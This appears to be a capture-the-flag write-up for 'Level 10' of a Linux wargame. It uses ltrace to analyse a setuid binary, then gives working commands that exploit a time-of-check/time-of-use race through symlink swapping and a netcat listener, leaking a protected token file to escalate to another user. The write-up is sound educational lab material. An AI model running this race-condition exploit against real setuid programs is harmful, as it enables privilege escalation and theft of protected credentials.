 # Level 10

## Initial Context

- Two file: `level10` and `token`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

`level10` seems to send a file to a socket only if you have the permission:

```bash
$ ./level10
./level10 file host
        sends file to host if you have access to it

$ ./level10 token 127.0.0.1
You don t have access to token

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

# starting a netcat in the background
$ nc -lkvn 0.0.0.0 6969 &
[1] 27240

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
Connected!
Sending file ..
...
wrote file!
```

But how to read the `token` file? The program seems to before check for the file permission, then try to open it.

```bash
$ ltrace ./level10 token 127.0.0.1
access("token", 4) = -1
printf("You don't have access to %s\n", "token") = 31
...
```

```bash
$ ltrace ./level10 /etc/passwd 127.0.0.1
access("/etc/passwd", 4) = 0
...
open("/etc/passwd", 0, 010) = 4
...
```

That means that if we manage to 'change' the file that is trying to be open just after the `access` check but just before the `open` call, it should works.

### Exploiting

By quickly changing the file, we should manage to randomly get the timing right. The `access` would check the dummy file, and the `open` would open the `token` file.

```bash
# create a dummy file
$ echo 'dummy' > /tmp/dummy

$ while true; do
  # link `/tmp/level10` to the dummy file
  ln -s /tmp/dummy /tmp/level10;
  # remove the link
  rm /tmp/level10;
  # link `/tmp/level10` to the token file
  ln -s ~/token /tmp/level10;
  # remove the link
  rm /tmp/level10;
done
```

In another terminal, start a netcat with filters to remove useless content:

```bash
$ nc -lkvn 0.0.0.0 6969 2>&1 | grep -v 'Connection from' | grep -v 'dummy' | grep -v '( )'
```

In again another terminal, start the `level10` executable in a loop:

```bash
$ while true; do
  ./level10 /tmp/level10 127.0.0.1;
done
```

After waiting a bit, the flag will appear on the netcat's terminal.

Now we can log into `flag10` and do `getflag`.

```
$ su flag10
$ getflag
Check flag.Here is your token : ....
```
